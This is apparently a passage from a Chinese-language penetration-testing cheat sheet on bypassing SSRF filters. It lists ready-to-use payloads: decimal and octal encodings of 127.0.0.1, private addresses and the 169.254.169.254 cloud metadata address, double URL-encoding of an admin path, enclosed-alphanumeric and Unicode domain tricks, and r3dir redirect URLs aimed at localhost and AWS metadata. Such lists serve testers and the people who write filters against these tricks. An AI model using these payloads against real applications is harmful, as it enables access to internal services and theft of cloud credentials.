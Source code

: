 * 十进制IP位置

    ```powershell
    http://2130706433/ = http://127.0.0.1
    http://3232235521/ = http://192.168.0.1
    http://3232235777/ = http://192.168.1.1
    http://2852039166/ = http://169.254.169.254
    ```

* 八进制IP：不同实现对IPv4的八进制格式处理方式不同。

    ```powershell
    http://0177.0.0.1/ = http://127.0.0.1
    http://o177.0.0.1/ = http://127.0.0.1
    http://0o177.0.0.1/ = http://127.0.0.1
    http://q177.0.0.1/ = http://127.0.0.1
    ```

### 使用不同编码绕过

* URL编码：对特定URL进行单次或多次编码以绕过黑名单

    ```powershell
    http://127.0.0.1/%61dmin
    http://127.0.0.1/%2561dmin
    ```

* 封闭字母数字：`①②③④⑤⑥⑦⑧⑨⑩⑪⑫⑬⑭⑮⑯⑰⑱⑲⑳⑴⑵⑶⑷⑸⑹⑺⑻⑼⑽⑾⑿⒀⒁⒂⒃⒄⒅⒆⒇⒈⒉⒊⒋⒌⒍⒎⒏⒐⒑⒒⒓⒔⒕⒖⒗⒘⒙⒚⒛⒜⒝⒞⒟⒠⒡⒢⒣⒤⒥⒦⒧⒨⒩⒪⒫⒬⒭⒮⒯⒰⒱⒲⒳⒴⒵ⒶⒷⒸⒹⒺⒻⒼⒽⒾⒿⓀⓁⓂⓃⓄⓅⓆⓇⓈⓉⓊⓋⓌⓍⓎⓏⓐⓑⓒⓓⓔⓕⓖⓗⓘⓙⓚⓛⓜⓝⓞⓟⓠⓡⓢⓣⓤⓥⓦⓧⓨⓩ⓪⓫⓬⓭⓮⓯⓰⓱⓲⓳⓴⓵⓶⓷⓸⓹⓺⓻⓼⓽⓾⓿`

    ```powershell
    http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com
    ```

* Unicode编码：在某些语言（如.NET、Python 3）中，默认情况下正则表达式支持Unicode。`\d`包括`0123456789`，也包括`๐๑๒๓๔๕๖๗๘๙`。

### 使用重定向绕过

1. 在白名单主机上创建一个重定向请求到目标SSRF URL的页面（例如192.168.0.1）
2. 启动SSRF指向`vulnerable.com/index.php?url=http://redirect-server`
3. 您可以使用[HTTP 307](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/307)和[HTTP 308](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/308)响应代码，以便在重定向后保留HTTP方法和正文。

要执行重定向而无需托管自己的重定向服务器或执行无缝重定向目标模糊测试，请使用[Horlad/r3dir](https://github.com/Horlad/r3dir)。

* 使用`307 Temporary Redirect`状态码重定向到`http://localhost`

    ```powershell
    https://307.r3dir.me/--to/?url=http://localhost
    ```

* 使用`302 Found`状态码重定向到`http://169.254.169.254/latest/meta-data/`

    ```powershell
    https://62epax5fhvj3zzmzigyoe5ipkbn7fysllvges3a.302.r3dir.me
    ```
